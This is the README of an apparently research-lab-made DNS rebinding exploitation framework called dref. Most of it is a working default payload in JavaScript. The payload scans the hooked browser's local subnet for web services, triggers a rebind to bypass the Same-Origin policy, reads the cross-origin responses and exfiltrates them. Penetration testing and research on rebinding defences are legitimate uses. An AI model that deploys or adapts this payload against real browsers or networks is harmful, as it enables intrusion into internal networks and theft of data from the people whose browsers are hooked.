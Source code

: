 <dl>
  <p align="center">
    <img src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/logo.png">
  </p>

  <!-- REPLACE SHIELDS -->
  <p align="center">
    <a href="https://travis-ci.org/serain/netmap.js.svg?branch=master" style="text-decoration: none">
      <img src="https://travis-ci.org/serain/netmap.js.svg?branch=master">
    </a>
    <a href="https://codecov.io/gh/serain/netmap.js">
      <img src="https://codecov.io/gh/serain/netmap.js/branch/master/graph/badge.svg">
    </a>
    <a href="https://greenkeeper.io/">
      <img src="https://badges.greenkeeper.io/serain/netmap.js.svg">
    </a>
    <a href="https://gitter.im/dref/Lobby/">
      <img src="http://badges.gitter.im/serain/dref.png">
    </a>
  </p>

  <p align="center">DNS Rebinding Exploitation Framework</p>

  <p align="center">
    <img src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/diagram.png">
  </p>
</dl>

dref does the heavy-lifting for [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding). The following snippet from one of its [default payloads](https://github.com/mwrlabs/dref/wiki/Payloads#web-discover) shows the framework being used to scan a local subnet from a hooked browser; after identifying live web services it proceeds to exfiltrate GET responses, [breezing through the Same-Origin policy](https://github.com/mwrlabs/dref/wiki#limitations):

```javascript
// mainFrame() runs first
async function mainFrame () {
  // We use some tricks to derive the browser's local /24 subnet
  const localSubnet = await network.getLocalSubnet('24')

  // We use some more tricks to scan a couple of ports across the subnet
  netmap.tcpScan(localSubnet, [80, 8080]).then(results => {
    // We launch the rebind attack on live targets
    for (let h of results.hosts) {
      for (let p of h.ports) {
        if (p.open) session.createRebindFrame(h.host, p.port)
      }
    }
  })
}

// rebindFrame() will have target ip:port as origin
function rebindFrame () {
  // After this we'll have bypassed the Same-Origin policy
  session.triggerRebind().then(() => {
    // We can now read the response across origin...
    network.get(session.baseURL, (code, headers, body) => {
      // ... and exfiltrate it
      session.log({code: code, headers: headers, body: body})
    })
  })
}
```

<dl>
  <img align="right" src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/exfiltrated.png">
  <img align="right" src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/arrow-bottom-right.png">
</dl>

<br /><br /><br /><br /><br /><br /><br /><br /><br />
Head over to the [Wiki](https://github.com/mwrlabs/dref/wiki) to get started.

<dl>
  <p align="center">
    <sub><i>This is a development release - <b>do not use in production</b></i></sub>
  </p>
</dl>
